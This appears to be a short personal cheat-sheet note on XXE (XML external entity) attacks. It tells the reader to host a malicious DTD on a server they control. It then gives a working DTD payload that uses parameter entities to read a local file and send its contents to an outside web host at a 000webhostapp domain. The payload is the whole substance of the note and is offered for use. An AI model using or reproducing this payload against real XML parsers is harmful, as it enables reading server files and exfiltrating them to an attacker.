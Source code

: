 # xxe
You must host the malicious DTD on a system that you control.
An example of a malicious DTD to exfiltrate the contents of the /hellothere.txt file is as follows:

<!ENTITY % file SYSTEM "file:///hellothere.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://sanglv11.000webhostapp.com/?x=%file;'>">
%eval;
%exfiltrate;
